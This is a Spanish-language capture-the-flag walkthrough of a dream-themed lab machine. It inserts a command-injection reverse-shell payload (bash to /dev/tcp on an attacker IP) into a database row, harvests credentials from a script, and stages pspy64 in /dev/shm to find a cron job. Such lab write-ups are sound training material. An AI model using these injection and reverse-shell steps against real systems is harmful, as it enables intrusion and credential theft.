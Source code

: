 ![[Pasted image 20240612143241.png]]
### nos aprovecharemos del archivo que mencionamos anteriormente el cual hace un llamado de todo lo que esta en la base de datos e intentaremos inyectar una shell a la base de datos para que cuando ejecutemos el archivo con suerte esto nos envie una shell
### vamos a inyectar codigo a la base de datos

```python
	INSERT into dreams (dreamer,dream) VALUE ("Gamuke","; bash -c 'bash -i >& /dev/tcp/10.8.203.6/9001 0>&1'");
```

![[Pasted image 20240612143249.png]]

### tenemos nuestro codigo malicioso inyectado en la base de datos asi que vamos a ejecutar el archvo.
![[Pasted image 20240612143255.png]]
### logramos tener conexion. dentro de este usuario hacemos cat al archivo getDreams.py
![[Pasted image 20240612143300.png]]
### hemos conseguido credenciales para el usuario death las cuales podriamos verificar si ingresamos via ssh
### nos falta enumerar el ultimo usuario
![[Pasted image 20240612143309.png]]
### vemos que dentro de la carpeta de morpheus existe un archivo llamado restore.py que al parecer hace un llamado de una libreria de python luego hace un backup de in archivo llamado kingdom. 
### parece que este archivo es una tarea crontab o se esta ejecutando cada cierto tiempo asi que intentaremos mirarlo con pspy64
### para ello vamos a movernos a la carpeta

```python
	cd /dev/shm
```
### aqui vamos a subir el pspy64
creamos un servidor en python
![[Pasted image 20240612143317.png]]
hacemos una peticion con wget al servidor para bajarnos el archivo
![[Pasted image 20240612143325.png]]
### ahora solo le damos permisos de ejecución y lo ejecutamos
![[Pasted image 20240612143331.png]]
